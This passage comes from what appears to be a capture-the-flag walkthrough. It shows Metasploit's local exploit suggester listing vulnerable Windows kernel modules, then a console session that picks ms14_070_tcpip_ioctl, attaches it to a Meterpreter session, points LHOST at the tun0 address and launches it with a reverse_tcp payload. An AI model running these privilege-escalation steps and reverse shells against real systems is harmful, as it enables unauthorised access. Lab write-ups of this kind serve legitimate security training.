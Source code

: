 ```sh
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```
{% endraw %}

<br />
Choose the ms14_070_tcpip_ioctl exploit.  Set the session to the meterpreter session that we backgrounded.  Set the LHOST option to the IP address of the tun0 interface.

{% raw %}
```sh
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > show options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set lhost tun0
lhost => 10.10.16.12
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set lhost tun0
lhost => 10.10.16.12
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > exploit
[*] Started reverse TCP handler on 10.10.16.12:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
```